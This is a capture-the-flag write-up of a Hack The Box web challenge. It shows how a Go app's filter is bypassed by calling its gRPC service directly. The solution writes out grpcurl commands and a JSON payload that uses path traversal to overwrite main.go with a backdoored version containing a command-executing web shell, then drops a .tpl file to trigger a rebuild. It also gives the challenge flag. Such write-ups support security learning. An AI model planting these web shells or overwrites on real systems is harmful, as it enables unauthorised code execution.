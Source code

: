 # Testimonial

## Enumeration
This was quite a tricky one but very interesting. At first we get a simple looking page:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/7cabee83-0222-4282-b488-8a89de2da738)

But then we look at the source code and see golang and a gRPC service. Took me longer than I care to admit to figure this one out but soon enough, from source code, we can tell that it seems to be filtering some characters.  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/af47974a-67d6-4980-9132-a5ddf0523605)

From the Dockerfile, we see it is downloading and installing `air`:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/f0100f04-9e10-469b-871b-7b7eb4305a59)

It even starts the application with `air`:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/75510b7d-4d33-4bdd-87d1-bebd58552fc8)

I wasn't very familiar with this, but it seems like it's a live reloader for Go apps.  
[https://github.com/cosmtrek/air](https://github.com/cosmtrek/air)  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/7f537a6d-94f2-4f72-8f31-0673e2108fae)

It's a bit like having a Flask application with Debug mode set to True but on steroids. It can be configured to detect any changes not only in the source code, but also within the directory structure of the application. For example, from the `.air.toml` config file, we can tell that it is including specific extensions, like tpl. So, if a file with a `.tpl` extension gets created within the application directory structure, then the app restarts, and rebuilds itself in the process.

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/92d4be95-708a-499b-baaf-ef7f5effcaf9)

This means that we should be able to get golang code execution if we can find a way to bypass the filter and rewrite the main.go file and then also drop a .tpl file to trigger air to restart and rebuild.

## Solution
This is where the gRPC comes in. Since the filter is only applied on the web interface, we can try to call the gRPC directly and bypass the filter entirely. We can do so using [grpcurl](https://github.com/fullstorydev/grpcurl/releases/tag/v1.8.9) and this syntax:  

```bash
./grpcurl -plaintext -proto challenge/pb/ptypes.proto -d @ 94.237.62.83:50292 RickyService/SubmitTestimonial < payload.json
```
In this syntax we are using the provided .proto file from the source code, we call the gRPC RickyService that we saw in the source code and submit a Testimonial. Just like the website is doing but without the filter getting in the way. The `payload.json` file contains this JSON.

```json
{
  "customer": "../../main.go",
  "testimonial": "package main\r\n\r\nimport (\r\n\t\"embed\"\r\n\t\"fmt\"\r\n\t\"log\"\r\n\t\"net\"\r\n\t\"net\/http\"\r\n\t\"os\/exec\"\r\n\r\n\t\"google.golang.org\/grpc\"\r\n\r\n\t\"htbchal\/handler\"\r\n\t\"htbchal\/pb\"\r\n\r\n\t\"github.com\/go-chi\/chi\/v5\"\r\n)\r\n\r\n\/\/go:embed public\r\nvar FS embed.FS\r\n\r\nfunc main() {\r\n\trouter := chi.NewMux()\r\n\r\n\trouter.HandleFunc(\"\/shell\", func(w http.ResponseWriter, r *http.Request) {\r\n\t\tcmd := r.URL.Query().Get(\"cmd\")\r\n\t\tif cmd == \"\" {\r\n\t\t\thttp.Error(w, \"No command provided\", http.StatusBadRequest)\r\n\t\t\treturn\r\n\t\t}\r\n\r\n\t\toutput, err := exec.Command(\"sh\", \"-c\", cmd).CombinedOutput()\r\n\t\tif err != nil {\r\n\t\t\thttp.Error(w, fmt.Sprintf(\"Error executing command: %s\", err), http.StatusInternalServerError)\r\n\t\t\treturn\r\n\t\t}\r\n\r\n\t\tw.Header().Set(\"Content-Type\", \"text\/plain\")\r\n\t\tw.WriteHeader(http.StatusOK)\r\n\t\tw.Write(output)\r\n\t})\r\n\r\n\trouter.Handle(\"\/*\", http.StripPrefix(\"\/\", http.FileServer(http.FS(FS))))\r\n\trouter.Get(\"\/\", handler.MakeHandler(handler.HandleHomeIndex))\r\n\tgo startGRPC()\r\n\tlog.Fatal(http.ListenAndServe(\":1337\", router))\r\n}\r\n\r\ntype server struct {\r\n\tpb.RickyServiceServer\r\n}\r\n\r\nfunc startGRPC() {\r\n\tlis, err := net.Listen(\"tcp\", \":50045\")\r\n\tif err != nil {\r\n\t\tlog.Fatal(err)\r\n\t}\r\n\ts := grpc.NewServer()\r\n\r\n\tpb.RegisterRickyServiceServer(s, &server{})\r\n\tif err := s.Serve(lis); err != nil {\r\n\t\tlog.Fatal(err)\r\n\t}\r\n}\r\n"
}
```
In the customer key we do some path traversal to overwite main.go. In the testimonial key we have our backdoored main.go which is the original main.go to which I added another endpoint to execute code... a webshell. You may notice that I have JSON escaped it to keep the valid JSON syntax. I generally use [this](https://www.freeformatter.com/json-escape.html#before-output) to make it easier to copy and paste.

When everything is setup correctly, we get the response we are looking for:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/9c08eb48-9bd5-47eb-8b2d-59a031426733)

At this point, the app has not restarted and rebuilt yet, we need to trigger it with a file containing one of the extensions from the .air.toml config. So we send another request via grpcurl.

```bash
./grpcurl -plaintext -proto challenge/pb/ptypes.proto -d @ 94.237.62.83:50292 RickyService/SubmitTestimonial < trigger.json 
```
The trigger.json content is the following:
```json
{
  "customer": "t.tpl",
  "testimonial": "This product is amazing!"
}
```
From our local docker experiment we can see the docker restarting and rebuilding because this .tpl file showed up.  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/8a574f48-fa1c-46a9-8f48-513096349b14)

We apply this to the actual server and we get our flag:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/8c36493b-278f-4b9d-b3f6-c5dff552ff69)

`HTB{w34kly_t35t3d_t3mplate5}`
